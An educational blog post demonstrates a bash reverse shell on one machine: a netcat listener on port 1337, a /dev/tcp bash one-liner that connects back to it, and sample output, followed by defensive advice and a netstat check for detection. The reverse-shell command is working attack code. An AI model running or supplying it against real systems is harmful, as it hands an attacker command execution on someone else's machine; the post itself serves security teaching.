 ```yaml
---
title: "What does a reverse shell actually look like?"
description: "Using basic Linux Bash commands to demonstrate a simple reverse shell."
tags:
  - networking
  - linux
  - bash
  - nc
  - security


---
```


A reverse shell is a type of shell where the target machine (under attack) communicates back to an attacker's machine, and importantly, gives the attacker control over the target machine. 

The attacker's machine will be listening on a port. A malicious script runs on the target machine, which connects back to the attacker's machine. The attacker's machine receives the connection. The attacker is then able to execute commands on the target machine.  

I'll create a simple example to demonstrate one to follow along with, it's just a few basic Linux Bash commands on the same machine. The simplicity of setting up a reverse shell is the reason why you should always be careful about what you run on your machine.

## Set up the listener

In one terminal window, setup a listener. Pretend that this is the attacker's machine.     

```bash
nc -lnvp 1337
```

Alternatively, you can run this in docker which does the same thing, it's your choice. 

```bash
docker run -it -p 1337:1337 --rm busybox:stable nc -lnvp 1337
```

Either way, the output should simply say "Listening on 0.0.0.0 1337". 


## Connect to the listener

Now in another terminal window, run this command to 'connect' to the listener. Pretend that this is the machine being compromised.  

```bash
/bin/bash --rcfile <(echo "PS1='omghacker: '") -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

The `/bin/bash` starts a new shell.    
The `-i` makes it interactive.     
The `>& /dev/tcp/...` redirects the input and output to the listener by making use of the [`/dev/tcp` feature in Linux Bash](2024-07-28-networking-cheat-sheet.md#reach-a-port-on-a-server).    
The `0>&1` redirects both standard input and output to the listener.      
The `--rcfile` bit is just something I've added for the next step, but isn't necessary.  

## What happens?

Nothing will happen in the second terminal window. But, go back to the first terminal window where the listener is running, and you should see a new prompt. It might look something like this.  

```
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 39738
omghacker:
```

The `omghacker:` is the prompt from the "compromised machine". 

You can now try running commands against it. Try `ls`, `pwd`, `whoami`, etc.

![Reverse shell](/assets/images/simple-reverse-shell-in-linux-bash/001.png)



When you're done, just `exit` to close the connection.


## Why is this dangerous?

This demonstrates just how easy it is to set up a reverse shell; the danger is its simplicity. It's not just limited to Bash, it can be done in [several languages and environments](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/). 

The `whoami` command would have shown that it's the user running on the compromised machine, which means their permissions are the attacker's permissions. 

It's also one of the (many) reasons that `curl | bash` type installations, often seen when installing software, are frowned upon. Sadly, they are still widely used out of laziness, convenience, or simply ignorance, and it is pretty sad to see well established projects promoting this security risk. 

The best way to protect yourself from a reverse shell attack is to be careful about what you run on your machine. If you're running a script from the internet, make sure you understand what it does first, don't just blindly run it. 

For developers, it's important to be avoid trying to make OS calls from code, especially when passing user input directly to the command. Those situations should be avoided as much as possible. Bash is rich and powerful in the creativity it proffers, and so sanitisation is not really going to help that much.

For application deployments, this is one of the (many) reasons why containers are useful; they provide a level of isolation, and therefore a reduced blast radius if something goes wrong.  

Just for reference, the following command can show you all the established connections on your machine, with the process ID and command. 

```bash
netstat -pan | grep -i ESTABLISHED
```

Here is what the reverse shell example would look like. An established connection from bash should prompt you to investigate further.

```
tcp        0      0 127.0.0.1:49364         127.0.0.1:1337          ESTABLISHED 24449/bash 
```

Note: it's not a perfect way of detecting reverse shells though, there are ways of hiding the connection, and the connection isn't always active. Other tools like [Fenrir](https://github.com/Neo23x0/Fenrir) might help as well. 
